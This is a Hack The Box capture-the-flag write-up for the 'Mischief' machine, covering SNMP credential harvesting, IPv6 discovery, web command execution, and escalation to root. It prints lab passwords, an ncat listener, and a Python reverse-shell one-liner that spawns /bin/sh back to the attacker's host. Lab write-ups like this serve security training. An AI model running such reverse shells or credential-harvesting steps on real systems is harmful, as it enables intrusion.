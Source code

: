 ```yaml
---
title: "Hack The Box - Mischief"
tags: [linux,insane,snmp,ipv6,snmp-check,enyx,bash history, code injection]
categories: HackTheBox
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%201.png)

⇒ On [http://10.10.10.92:3366](http://10.10.10.92:3366) we have a http-authentication form. We dont have any credentials to login.

⇒ We ran udp port scan and found snmp open :

161/udp open snmp

## Enumerating SNMP :

→ Ran snmp-check and found the following :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%202.png)

**loki : godofmischiefisloki**

→ Using these credentials we were able to login on the caldav webpage :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%203.png)

→ More new credentials :

**loki : trickeryanddeceit**

⇒ Lets enumerate **ipv6** through **snmp**

Tool : [https://github.com/trickster0/Enyx](https://github.com/trickster0/Enyx)

**python [enyx.py](http://enyx.py/) 2c public 10.10.10.92**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%204.png)

`**dead:beef:0000:0000:0250:56ff:feb9:2353**`

⇒ Lets run nmap :

**nmap -6 -sV -sC -A dead:beef:0000:0000:0250:56ff:feb9:2353**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%205.png)

⇒ Webpage : http://[dead:beef::250:56ff:feb9:2353]/

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%206.png)

→ We logged in as user **administrator** with password **trickeryanddeceit**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%207.png)

⇒ We have command execution. It says that the password is stored in home directory :

→ Reading everything in loki home directory :

**cat /home/loki/* ;**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%208.png)

SSH : **loki : lokiisthebestnorsegod**

⇒ SSH'ed in as loki

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%209.png)

**USER OWNED**

## Privilege Escalation to Root

⇒ In user bash_history we find the following :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2010.png)

→ Password : **lokipasswordmischieftrickery**

→ We tried switching to root using this password but it blocks the command. 

⇒ Lets get a shell as www-data through the web rce and then switch to root

→ Starting listener :

**ncat -6 -nlvp 4444**

→ Running command. [ Note : We are using our IPV6 address ]

**`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::102b",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ;`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2011.png)

⇒ Switched to root using the password we found in bash_history :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2012.png)

**ROOTED**

→ ***/root/root.txt*** says the flag is not here. So lets run find command :

**find / -type f -name root.txt**

